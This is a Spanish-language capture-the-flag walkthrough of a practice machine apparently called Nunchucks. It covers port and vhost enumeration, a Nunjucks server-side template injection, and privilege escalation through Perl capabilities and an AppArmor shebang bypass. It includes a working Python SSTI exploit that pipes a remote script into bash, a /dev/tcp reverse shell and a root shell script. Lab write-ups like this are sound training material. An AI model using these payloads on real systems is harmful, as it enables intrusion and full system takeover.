import Banner from "../Banner.astro"
import bannerIMG from './banner.png'; 

<Banner image={bannerIMG} />

# Reconocimiento
Comenzaremos el reconocimiento con un escaneo a los puertos abiertos de esta máquina y que servicios y versiones corren en cada uno.

```bash
sudo nmap -T4 --min-rate 1000 -p- -sCV -oN nmap_report 10.10.11.122
```



Podemos ver que hay 3 puertos abiertos uno con el servicio SSH y 2 con servicios HTTP y HTTPS, además vemos que usan el dominio numchucks.htb por lo que lo añadiremos al /etc/hosts. Además entraremos al dominio a ver que nos encontramos.


Vemos que hay un panel de Login y SignUp, pero no funcionan, por lo que podríamos aplicar la técnica de fuzzing.

```bash
ffuf -u https://nunchucks.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -r -fs 45
```
2


Le hemos tenido que añadir un -fs 45 porque por defecto si no encontraba un directorio te redirigia a una página de este tamaño. No hay nada interesante por lo que podríamos comprobar si esta utilizando Virtual Hosting (VHOST):

```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u https://nunchucks.htb -H "Host: FUZZ.nunchucks.htb" -mc 200 -fs 30589
```



Al igual que antes hubo que aplicar un filtro, pero podemos ver que ha encontrado uno, lo añadiremos también al /etc/hosts y navegaremos a ver que encontramos.


Podemos ver una web simple en la que podemos introducir un email y luego se muestra nuestro input. Esto puede causar muchos problemas si está mal sanitizado. En este caso podemos aprovechar un SSTI (Server Side Template Injection) que es como introducir un XSS en HTML pero para plantillas como puede ser PUG entre otros. Por lo que probaremos con algo simple.

```
{{2+2}}@gmail.com
```


Podemos ver que realiza la operación por lo que es vulnerable. Ahora necesitamos saber que tipo de plantilla esta utilizando, por lo que usaremos whatweb para sacar más información.

```bash
whatweb https://store.nunchucks.htb/
```



Podemos ver que corre Express.js, veamos que posibles plantillas existen:

- PugJs `#{7*7}` ❎
- Handlebars `${7*7}` ❎
- Nunjucks (Similar al nombre de la máquina) `{{7*7}}` ✅

Explotación
 Vamos a crear un exploit en python para poder explotar esta vulnerabilidad.

```python
#!/usr/bin/python3

import requests
from urllib3.exceptions import InsecureRequestWarning

def main():
    try:
        # Suppress the warnings from urllib3
        requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)

        payload = """{{range.constructor("return global.process.mainModule.require('child_process').execSync('curl http://10.10.14.16/index.html | bash ')")()}}"""
        response = requests.post(
            url="https://store.nunchucks.htb/api/submit",
            json={"email": payload},
            verify=False
        )

        if response.status_code == 200:
            print(response.text)
        else:
            print("[x] Something went wrong")
    except Exception as e:
        print(str(e))

if __name__ == "__main__":
    main()
```

```bash
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.14.16/443 0>&1'
```
Con esto podremos establecer una reverse shell con la que podremos obtener la flag de usuario para luego poder hacer una escalada de privilegios y poder conseguir la root flag.



# Escalada de privilegios
Para la escalación vamos a ver que permisos root encontramos.

```bash
find . -perm -4000 -user root 2>/dev/null
```



```bash
getcap / -r 2>/dev/null
```



Aclaración de el uso de estos comandos:

## 1. find . -perm -4000 -user root 2>/dev/null
- find . → Busca archivos en el directorio actual y sus subdirectorios.
- -perm -4000 → Filtra los archivos que tienen el bit SUID activado. Este bit permite que el archivo se ejecute con los permisos de su propietario en lugar de los del usuario que lo ejecuta.
- -user root → Filtra los archivos que pertenecen al usuario root.
- 2>/dev/null → Redirige los errores (como permisos denegados) a /dev/null para que no se muestren en la salida.

### ¿Para qué sirve?

Encuentra archivos con permisos SUID de root, lo que es útil en auditorías de seguridad, ya que estos archivos pueden permitir la escalada de privilegios si tienen vulnerabilidades.

## 2. getcap / -r 2>/dev/null
- getcap / -r → Busca en todo el sistema (/) archivos con capabilities activadas y muestra sus capacidades.
- 2>/dev/null → Redirige los errores a /dev/null.

### ¿Para qué sirve?

Muestra qué archivos tienen capabilities activadas en el sistema.
En lugar de depender de SUID, Linux tiene un sistema de capacidades (capabilities) que otorga permisos específicos sin necesidad de ser root.
Por ejemplo, si un binario tiene cap_net_admin, puede modificar interfaces de red sin ser root.

Una vez aclarado esto vemos que perl tiene capabilities activadas las cuales podríamos intentar explotar con:



```bash
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "whoami";'
```



Vemos que funciona, vamos a intentar lanzar un ping a nosotros mismos:

```bash
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "ping -c 1 10.10.14.16";'
```



```bash
sudo tcpdump -ni tun0 icmp
```



No recibimos nada, es posible que algo lo esté bloqueando. Tras una pequeña búsqueda vemos que está protegiéndolo AppArmor, que básicamente es una aplicación de protección contra amenazas en linux. Vamos a comprobar si está activa.

```bash
find \-name \*apparmor\* 2>/dev/null | grep -vE "var|proc|sys|usr"
```







Podemos ver que hay bastante información sobre apparmor.d, vamos a ver que hay en /opt/backup.pl.





Vemos que solo tenemos permisos de ejecución y no de escritura. Buscando vulnerabilidades de AppArmor podemos encontrar una relacionada con [perl](https://bugs.launchpad.net/apparmor/+bug/1911431).



Podemos ganar privilegios con el mismo script del GTFObins pero usando el shebang.

```perl
#!/usr/bin/perl

use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh";
```



Vemos que después de darle permisos y ejecutarlo, obtenemos la flag root.